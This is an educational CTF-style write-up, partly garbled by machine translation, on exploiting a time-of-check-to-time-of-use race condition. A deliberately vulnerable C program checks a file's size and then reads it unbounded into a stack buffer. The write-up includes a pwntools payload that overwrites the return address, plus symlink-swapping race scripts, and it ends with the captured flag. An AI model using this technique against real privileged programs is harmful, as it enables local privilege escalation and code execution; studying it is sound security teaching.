 [EN](./problem.md) | [ZH](./problem-zh.md)
#题


## Construction example


### Source code


The source code is as follows


```c

#include <fcntl.h>

#include <stdio.h>

#include <stdlib.h>

#include <string.h>

#include <sys/stat.h>

#include <unistd.h>

void showflag() { system("cat flag"); }

void vuln(char *file, char *buf) {

  int number;

  int index = 0;

  int fd = open(file, O_RDONLY);

  if (fd == -1) {

    perror("open file failed!!");

    return;

  }

  while (1) {

    number = read(fd, buf + index, 128);

    if (number <= 0) {

      break;

    }

    index += number;

  }

  buf[index + 1] = '\x00';

}

void check(char *file) {

  struct stat tmp;

  if (strcmp(file, "flag") == 0) {

    puts("file can not be flag!!");

    exit(0);

  }

  stat(file, &tmp);

  if (tmp.st_size > 255) {

    puts("file size is too large!!");

    exit(0);

  }

}

int main(int argc, char *argv[argc]) {

  char buf[256];

  if (argc == 2) {

    check(argv[1]);

    vuln(argv[1], buf);

  } else {

    puts("Usage ./prog <filename>");

  }

  return 0;

}

```



### Analysis


It can be seen that the basic flow of the program is as follows


- Check if the incoming command line argument is &quot;flag&quot; and if so, exit.
- Check if the file size corresponding to the incoming command line parameter is greater than 255. If so, exit directly.
- Read the contents of the file corresponding to the command line parameters into buf. The size of buf is 256.


It seems that we checked the size of the file, and the size of the buf can also meet the corresponding maximum size, but there is a problem of conditional competition.


If we delete the corresponding file after the program has checked the corresponding file size and symbolically link to another larger file, the program will read more content, which will cause stack overflow.


### The basic idea


Well, the basic idea is coming, we want to get the corresponding `flag` content. Then we only need to modify the return address of the corresponding `main` function through stack overflow. The address of `showflag` can be obtained through disassembly and debugging, and the corresponding payload is obtained.


```python

➜ race test cat payload.py
from pwn import *

test = ELF (&#39;./ test&#39;)
payload = 'a' * 0x100 + 'b' * 8 + p64(test.symbols['showflag'])

open('big', 'w').write(payload)

```



The script that competes for the two conditions is


```sh

Exp racing test cat exp.sh
#! / Bin / sh
for i in `seq 500`

do

    cp small fake

    sleep 0.000008

    rm fake

    ln -s big fake

    rm fake

done

Run race test cat run.sh
#! / Bin / sh
for i in `seq 1000`

do

    ./test fake

done

```



Where exp is used to compete to delete the fake file in the corresponding window while performing symbolic links. Run is used to execute the program.


### Specific effects


```shell

➜ race test (sh exp.sh &amp;) &amp;&amp; sh run.sh
[...]

file size is too large!!

open file failed!!: No such file or directory

open file failed!!: No such file or directory

open file failed!!: No such file or directory

open file failed!!: No such file or directory

file size is too large!!

open file failed!!: No such file or directory

open file failed!!: No such file or directory

flag{race_condition_succeed!}

[...]

```



The key to success is the timing of the corresponding `sleep`.


# 参考


- http://www.cnblogs.com/biyeymyhjob/archive/2012/07/20/2601655.html

- http://www.cnblogs.com/huxiao-tee/p/4660352.html
- https://github.com/dirtycow/dirtycow.github.io